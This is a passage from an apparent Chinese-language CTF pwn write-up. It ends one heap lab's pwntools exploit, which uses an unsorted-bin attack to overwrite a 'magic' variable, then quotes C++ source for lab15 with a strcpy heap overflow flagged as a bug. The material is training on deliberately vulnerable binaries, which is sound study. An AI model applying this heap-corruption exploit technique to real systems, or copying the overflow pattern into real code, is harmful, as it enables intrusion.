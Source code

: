 ```python
    r.sendline(content)

def del_heap(idx):
    r.recvuntil(":")
    r.sendline("3")
    r.recvuntil(":")
    r.sendline(str(idx))


create_heap(0x10,'1111')#0
create_heap(0x80,'2222')#1
create_heap(0x10,'3333')#2

del_heap(1)

pay = '1'*0x10 + p64(0) + p64(0x91) + p64(0) + p64(magic-0x10)
edit_heap(0,0x30,pay)

create_heap(0x80,"2222")
r.recvuntil(":")
r.sendline("4869")
r.recvuntil('Congrt !\n')
success(r.recvline())
```

 

## lab15

c++的pwn，但还是简单的heap overflow，而且刻意的打开了execstack，就可以通过shellcode了。


overflow在这里，由strcpy造成。

```cpp
class Animal {
	public :
		Animal(){
			memset(name,0,24);
			weight = 0;
		}
		virtual void speak(){;}
		virtual void info(){;}
	protected :
		char name[24];//[BUG]heap overflow
		int weight;
};

class Dog : public Animal{
	public :
		Dog(string str,int w){
			strcpy(name,str.c_str());	//[BUG]overflow
			weight = w ;
		}
		virtual void speak(){
			cout << "Wow ~ Wow ~ Wow ~" << endl ;
		}
		virtual void info(){
			cout << "||" << endl ;
			cout << "| Animal info         |" << endl;
			cout << "||" << endl;
			cout << "  Weight :" << this->weight << endl ;
			cout << "  Name : " << this->name << endl ;
			cout << "||" << endl;
		}
```